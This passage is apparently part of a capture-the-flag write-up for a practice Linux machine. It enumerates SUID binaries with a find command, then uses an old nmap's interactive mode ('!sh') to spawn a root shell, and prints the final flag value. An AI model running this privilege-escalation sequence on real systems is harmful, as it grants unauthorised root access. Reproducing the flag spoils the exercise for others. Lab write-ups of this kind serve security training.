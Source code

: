 ```
find / -perm -4000 -type f 2>/dev/null
```

user local has a `nmap`  

<img src="./img/Pasted image 20240626220347.png" alt="Example Image" width="1080"/>

searched got a command to get the root shell from gtfobins 

https://gtfobins.github.io/gtfobins/nmap/#suid\

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh 
```

got the root shell 

<img src="./img/Pasted image 20240626221409.png" alt="Example Image" width="1080"/>

we have pwned the machine and , got the last flag

```
cd /root
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
